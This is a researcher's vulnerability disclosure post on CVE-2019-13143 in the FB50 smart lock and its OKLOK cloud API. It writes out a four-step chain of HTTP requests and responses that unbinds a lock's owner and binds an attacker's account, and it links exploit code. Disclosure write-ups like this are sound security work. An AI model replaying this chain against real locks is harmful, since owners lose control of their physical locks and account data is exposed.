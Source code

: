 ```yaml
---
template: text.html
title: Picking the FB50 smart lock (CVE-2019-13143)
subtitle: … and lessons learnt in IoT security
date: 2019-08-05
---
```


(*originally posted at [SecureLayer7's Blog](http://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure), with my edits*)

## The lock

The lock in question is the FB50 smart lock, manufactured by Shenzhen
Dragon Brother Technology Co. Ltd. This lock is sold under multiple brands
across many ecommerce sites, and has over, an estimated, 15k+ users.

The lock pairs to a phone via Bluetooth, and requires the OKLOK app from
the Play/App Store to function. The app requires the user to create an
account before further functionality is available. 
It also facilitates configuring the fingerprint,
and unlocking from a range via Bluetooth.

We had two primary attack surfaces we decided to tackle — Bluetooth (BLE)
and the Android app.

## Via Bluetooth Low Energy (BLE)

Android phones have the ability to capture Bluetooth (HCI) traffic
which can be enabled under Developer Options under Settings. We made 
around 4 "unlocks" from the Android phone, as seen in the screenshot.

![wireshark packets](/static/img/bt_wireshark.png)

This is the value sent in the `Write` request:

![wireshark write req](/static/img/bt_ws_value.png)

We attempted replaying these requests using `gattool` and `gattacker`,
but that didn't pan out, since the value being written was encrypted.[^1]

## Via the Android app

Reversing the app using `jd-gui`, `apktool` and `dex2jar` didn't get us too
far since most of it was obfuscated. Why bother when there exists an 
easier approach -- BurpSuite.

We captured and played around with a bunch of requests and responses,
and finally arrived at a working exploit chain.

## The exploit

The entire exploit is a 4 step process consisting of authenticated 
HTTP requests:

1. Using the lock's MAC (obtained via a simple Bluetooth scan in the 
vicinity), get the barcode and lock ID
2. Using the barcode, fetch the user ID
3. Using the lock ID and user ID, unbind the user from the lock
4. Provide a new name, attacker's user ID and the MAC to bind the attacker
to the lock

This is what it looks like, in essence (personal info redacted).

### Request 1

```
POST /oklock/lock/queryDevice
{"mac":"XX:XX:XX:XX:XX:XX"}
```

Response:

```
{
   "result":{
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
}
```

### Request 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
```

Response:

```
   "result":{
      "account":"email@some.website",
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":<USER ID>
   }
```

### Request 3

```
POST /oklock/lock/unbind

{"lockId":"<LOCK ID>","userId":<USER ID>}
```
### Request 4

```
POST /oklock/lock/bind

{"name":"newname","userId":<USER ID>,"mac":"XX:XX:XX:XX:XX:XX"}
```

## That's it! (& the scary stuff)

You should have the lock transferred to your account. The severity of this
issue lies in the fact that the original owner completely loses access to
their lock. They can't even "rebind" to get it back, since the current owner 
(the attacker) needs to authorize that. 

To add to that, roughly 15,000 user accounts' info are exposed via IDOR.
Ilja, a cool dude I met on Telegram, noticed locks named "carlock", 
"garage", "MainDoor", etc.[^2] This is terrifying.

*shudders*

## Proof of Concept

[PoC Video](https://twitter.com/icyphox/status/1158396372778807296)

[Exploit code](https://github.com/icyphox/pwnfb50)

## Disclosure timeline

- **26th June, 2019**: Issue discovered at SecureLayer7, Pune
- **27th June, 2019**: Vendor notified about the issue
- **2nd July, 2019**: CVE-2019-13143 reserved
- No response from vendor
- **2nd August 2019**: Public disclosure

## Lessons learnt

**DO NOT**. Ever. Buy. A smart lock. You're better off with the "dumb" ones
with keys. With the IoT plague spreading, it brings in a large attack surface
to things that were otherwise "unhackable" (try hacking a "dumb" toaster).

The IoT security scene is rife with bugs from over 10 years ago, like
executable stack segments[^3], hardcoded keys, and poor development 
practices in general.

Our existing threat models and scenarios have to be updated to factor 
in these new exploitation possibilities. This also broadens the playing 
field for cyber warfare and mass surveillance campaigns. 

## Researcher info

This research was done at [SecureLayer7](https://securelayer7.net), Pune, IN by:

* Anirudh Oppiliappan (me)
* S. Raghav Pillai ([@_vologue](https://twitter.com/_vologue))
* Shubham Chougule ([@shubhamtc](https://twitter.com/shubhamtc))

[^1]: [This](https://www.pentestpartners.com/security-blog/pwning-the-nokelock-api/) article discusses a similar smart lock, but they broke the encryption.
[^2]: Thanks to Ilja Shaposhnikov (@drakylar).
[^3]: [PDF](https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)


